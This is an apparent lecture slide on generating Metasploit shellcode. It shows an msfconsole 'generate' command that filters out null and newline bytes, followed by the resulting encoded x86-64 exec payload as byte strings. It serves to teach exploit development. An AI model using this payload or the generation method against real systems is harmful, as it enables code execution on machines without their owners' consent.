

# Metasploit Shellcode: Payload Create
And now without null bytes:
msf payload(exec) > generate -b '\x00\x0A'
"\x48\x31\xc9\x48\x81\xe9\xf9\xff\xff\xff\x48\x8d\x05\xef" +
"\xff\xff\xff\x48\xbb\xca\x7f\x48\xd1\xcf\x89\xea\x19\x48" +
"\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xa0\x44\x10" +
"\x48\x87\x32\xc5\x7b\xa3\x11\x67\xa2\xa7\x89\xb9\x51\x43" +
"\x98\x20\xfc\xac\x89\xea\x51\x43\x99\x1a\x39\xc3\x89\xea" +
"\x19\xf7\x5f\x67\xb3\xa6\xe7\xc5\x7b\xab\x0c\x20\xd1\x99" +
"\xde\xa2\x90\x2c\x70\x4d\xd1\xcf\x89\xea\x19"